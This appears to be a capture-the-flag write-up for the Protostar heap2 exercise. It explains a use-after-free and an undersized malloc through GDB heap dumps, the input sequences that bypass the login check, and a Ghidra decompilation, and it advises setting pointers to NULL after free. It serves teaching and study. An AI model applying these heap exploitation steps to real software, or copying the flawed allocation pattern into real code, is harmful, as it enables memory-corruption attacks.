

## Foreword
In this article we will try a challenge from [protostar heap 2](https://exploit.education/protostar/heap-two/) with the introduction **use-after-free** vulnerability, and potentially see how ugly naming variable or bad programming style can introduce a bug in a program. This time I'm assuming we already read the source code, but later at the end we will try to do some extra work by comparing the original source with the decompiled code version, maybe to really feel and approaching the challenge like in a real world situation.

## Running The Program

If we run the program and then we trying to `login` immediatly, it will gave us a segfault:
```bash
$ ./heap2 
[ auth = (nil), service = (nil) ]
login
Segmentation fault
```

That happens because we were trying to dereference a null pointer at the if statement.
```c
if(auth->auth)
```

```bash
(gdb) r
Starting program: /opt/protostar/bin/heap2 
[ auth = (nil), service = (nil) ]
login

Program received signal SIGSEGV, Segmentation fault.
0x08048a8b in main (argc=1, argv=0xbffff864) at heap2/heap2.c:38
38	heap2/heap2.c: No such file or directory.
	in heap2/heap2.c

0x08048a8b <main+343>:	mov    eax,DWORD PTR [eax+0x20]
```

So in order to fix this simply we must allocate some memory for `struct auth` first. There are a line of code that does it:
```c
struct auth {
  char name[32];
  int auth;
};
struct auth *auth;
if(strncmp(line, "auth ", 5) == 0) { // 1
  auth = malloc(sizeof(auth)); // 2
  memset(auth, 0, sizeof(auth)); // 3
  if(strlen(line + 5) < 31) { // 4
    strcpy(auth->name, line + 5); // 5
  }
}
```
1. The `strncmp` compares both string that are supposed to be the same until `n` bytes.
2. Allocating 36 bytes memory in heap for `struct auth` (this is actually wrong, later we will see in gdb, the correct bytes should be 4 bytes because the malloc actually refering to `struct auth *auth`)
3. Fill auth with zeroes
4. Overflow check, make sure the user input string not exceeded 31
5. A safe `strcpy`, no buffer overflow

Run the program again:
```bash
$ ./heap2 
[ auth = (nil), service = (nil) ]
auth 
[ auth = 0x804c008, service = (nil) ]
login
please enter your password
[ auth = 0x804c008, service = (nil) ]
```

So in this challenge, we need to modify the `int` `auth->auth` into something that is not `0`, i.e. make it true.
```c
if(auth->auth) {
  printf("you have logged in already!\n");
} else {
  printf("please enter your password\n");
}
```

## Dangling Pointer and use-after-free
Now let's try to execute the "reset" command:
```c
if(strncmp(line, "reset", 5) == 0) {
  free(auth);
}
```
```bash
user@protostar:/opt/protostar/bin$ ./heap2 
[ auth = (nil), service = (nil) ]
auth 
[ auth = 0x804c008, service = (nil) ]
login
please enter your password
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
```

1. **After `reset` Command:**
   - The `reset` command frees the memory allocated for `auth` but does **not** set `auth` to `NULL`. The memory is released back to the heap, but `auth` still holds the old address `0x804c008`.

2. **Why Does `auth` Still Show the Old Address?**
   - When you free a pointer in C using `free(auth)`, the memory is marked as free in the heap, but the pointer variable `auth` itself is **not** automatically set to `NULL`. It still holds the old address (`0x804c008`), but that memory is no longer valid to use. This is known as a **dangling pointer**.

### Why Is This Dangerous?

- **Dangling Pointers:** The `auth` pointer now points to a location in memory that has been freed. If the program later tries to access or modify this memory location, it could result in undefined behavior, a crash, or worse, a security vulnerability.
- **Memory Reuse:** The freed memory (`0x804c008`) could be allocated to another part of the program. If `auth` is still pointing to `0x804c008` and the program tries to access it thinking it's still the `auth` structure, it could corrupt data or lead to a security exploit.

### What is a Use-After-Free Vulnerability?

A **use-after-free (UAF)** vulnerability occurs when a program continues to use a pointer after the memory it points to has been freed. This can lead to unpredictable behavior, crashes, or even security vulnerabilities, such as arbitrary code execution, because the freed memory could be reallocated for a different purpose.

### Proper Way to Avoid Use-After-Free

After freeing a pointer, it is good practice to set it to `NULL` to prevent accidental use:

```c
if (strncmp(line, "reset", 5) == 0) {
  free(auth);
  auth = NULL;  // Set to NULL after freeing to avoid dangling pointer
}
```

### How Can Use-After-Free Be Exploited?

1. **Control Flow Hijacking:** An attacker could manipulate the program to allocate controlled data into the freed space. If the program later dereferences the dangling pointer (`auth`), it could use the attacker's data instead.
2. **Arbitrary Code Execution:** If the freed memory is reallocated for something else, and the attacker controls the data written to it, they could execute arbitrary code by crafting the right memory layout.

In this program, failing to set `auth` to `NULL` after `free(auth)` results in a dangling pointer. This can lead to a **use-after-free** scenario where subsequent operations might try to use the freed memory, causing undefined behavior or vulnerabilities. Always set pointers to `NULL` after freeing them to prevent such issues.

## `service` command

When you use the `service` command after `reset`, `service` ends up pointing to the memory that was previously allocated to `auth`, which has been freed.

1. **`reset` Command:**
   - The `reset` command frees the memory pointed to by `auth`. However, the `auth` pointer still holds the value `0x804c008`, which is now a dangling pointer.

2. **`service` Command:**
   - The `service` command uses `strdup` to allocate memory and copy the input string to `service`. When you run the `service` command, the `strdup` function allocates memory for the string and places it in the heap. However, if the heap allocator decides to reuse the memory space that was just freed (at `0x804c008`), `service` ends up pointing to the same location.

### Why Does `service` Point to Freed Memory?

- When you call `free(auth)`, the memory pointed to by `auth` is marked as free and returned to the heap. However, the data in that memory is not immediately erased. The memory allocator (such as `malloc`/`free`) may reuse that memory block in future allocations.
- When you call `strdup`, it internally uses `malloc` to allocate memory. Since the recently freed block (`0x804c008`) is available, the allocator may reuse it for the `service` pointer.


## Exploitation and GDB Analyses
In GDB, we need several helper command:
```bash
b *main+43
command
echo -heap_memory--------------------------------\n
x/20wx 0x804c000
echo --*auth-------------------------------------\n
print *auth
echo --service-----------------------------------\n
print service
echo --------------------------------------------\n
c
end
```

This one we try executing these command consecutively: `auth AAAA`, `service BBBB`, and `reset`:
```bash
(gdb) c
Continuing.
[ auth = (nil), service = (nil) ]
auth AAAA

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x41414141	0x0000000a
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$3 = {name = "AAAA\n\000\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--service-----------------------------------
$4 = 0x0
--------------------------------------------
[ auth = 0x804c008, service = (nil) ]
service BBBB

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x41414141	0x0000000a
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$5 = {name = "AAAA\n\000\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\341\017\000", auth = 0}
--service-----------------------------------
$6 = 0x804c018 " BBBB\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
```

If we `reset` it:
```bash
reset 

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x00000000	0x0000000a
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$7 = {name = "\000\000\000\000\n\000\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\341\017\000", auth = 0}
--service-----------------------------------
$8 = 0x804c018 " BBBB\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
```
As we can see on address `0x804c008` the heap memory is being freed but as we know at the beginning this code contains bug, it's not enough to `free` the memory without setting the `auth` to null in this case, it's dangling pointer, we can use it after we free it to do whatever we want. Next, what if we add more `service`?

```bash
service CCCC

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x43434320	0x00000a43
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$9 = {name = " CCCC\n\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\341\017\000", auth = 0}
--service-----------------------------------
$10 = 0x804c008 " CCCC\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c008 ]
service DDDD

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x43434320	0x00000a43
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000011	0x44444420	0x00000a44
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$11 = {name = " CCCC\n\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\021\000\000", auth = 1145324576}
--service-----------------------------------
$12 = 0x804c028 " DDDD\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c028 ]
```
Somehow the `auth->auth` variable modified `auth = 1145324576`, it's just a decimal version of hex `0x44444420`, see `0x804c028`. And if we `login` we passed the challenge:
```bash
login
you have logged in already!

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x43434320	0x00000a43
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000011	0x44444420	0x00000a44
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$13 = {name = " CCCC\n\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\021\000\000", auth = 1145324576}
--service-----------------------------------
$14 = 0x804c028 " DDDD\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c028 ]
```

So what's going on here? First of all the allocated heap memory for `auth` isn't it supposed to be around 36 bytes?

```c
struct auth {
  char name[32]; // 32 bytes
  int auth; // 4 bytes
};
struct auth *auth;
auth = malloc(sizeof(auth))
```
Well that's wrong because the program actually allocate only 4 bytes.

Illustration from @liveoverflow youtube channel

Based on that information, we can use the `service` to just overflow until it hits the `auth->auth` address:
```bash
(gdb) c
Continuing.
[ auth = (nil), service = (nil) ]
auth AAA

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x0a414141	0x00000000
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$17 = {name = "AAA\n\000\000\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--service-----------------------------------
$18 = 0x0
--------------------------------------------
[ auth = 0x804c008, service = (nil) ]
serviceBBBBCCCCDDDDEEEEFFFF 

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x0a414141	0x00000000
0x804c010:	0x00000000	0x00000021	0x42424242	0x43434343
0x804c020:	0x44444444	0x45454545	0x46464646	0x0000000a
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$19 = {name = "AAA\n\000\000\000\000\000\000\000\000!\000\000\000BBBBCCCCDDDDEEEE", auth = 1179010630}
--service-----------------------------------
$20 = 0x804c018 "BBBBCCCCDDDDEEEEFFFF\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x0a414141	0x00000000
0x804c010:	0x00000000	0x00000021	0x42424242	0x43434343
0x804c020:	0x44444444	0x45454545	0x46464646	0x0000000a
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$21 = {name = "AAA\n\000\000\000\000\000\000\000\000!\000\000\000BBBBCCCCDDDDEEEE", auth = 1179010630}
--service-----------------------------------
$22 = 0x804c018 "BBBBCCCCDDDDEEEEFFFF\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
```
We don't have to use the use-after-free exploit concept in this challenge, we can just overflow it because the `auth` is supposed to be 36 bytes but it's actually gave us 4 bytes. This happen because the program did not named the variable appropriately hence it `malloc`ed with wrong variable. However because this challenge was inteded to introduce us about use-after-free idea, so we need to pass the challenge using use-after-free which we already did in the first place, and then we noticed that the `malloc`-ated memory is not 36 bytes hence we can use the `service` command to overflow the `auth` until it hits the `auth->auth`.

## Conclusion
TODO: complete this section


## Ghidra Decompilation
For extra work I think it's fun to see the, decompilation version, this one is from ghidra:
```c
void main(void)
{
  char *pcVar1;
  int iVar2;
  size_t sVar3;
  char local_90 [5];
  char local_8b [2];
  char acStack_89 [133];
  
  while( true ) {
    printf("[ auth = %p, service = %p ]\n",auth,service);
    pcVar1 = fgets(local_90,0x80,stdin);
    if (pcVar1 == (char *)0x0) break;
    iVar2 = strncmp(local_90,"auth ",5);
    if (iVar2 == 0) {
      auth = (char *)malloc(4);
      memset(auth,0,4);
      sVar3 = strlen(local_8b);
      if (sVar3 < 0x1f) {
        strcpy(auth,local_8b);
      }
    }
    iVar2 = strncmp(local_90,"reset",5);
    if (iVar2 == 0) {
      free(auth);
    }
    iVar2 = strncmp(local_90,"service",6);
    if (iVar2 == 0) {
      service = strdup(acStack_89);
    }
    iVar2 = strncmp(local_90,"login",5);
    if (iVar2 == 0) {
      if (*(int *)(auth + 0x20) == 0) {
        puts("please enter your password");
      }
      else {
        puts("you have logged in already!");
      }
    }
  }
  return;
}
```

TODO: complete this section


## Resources
LiveOverflow. The Heap: How do use-after-free exploits work? - bin 0x16
. https://www.youtube.com/watch?v=ZHghwsTRyzQ&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=29

https://exploit.education/protostar/heap-two/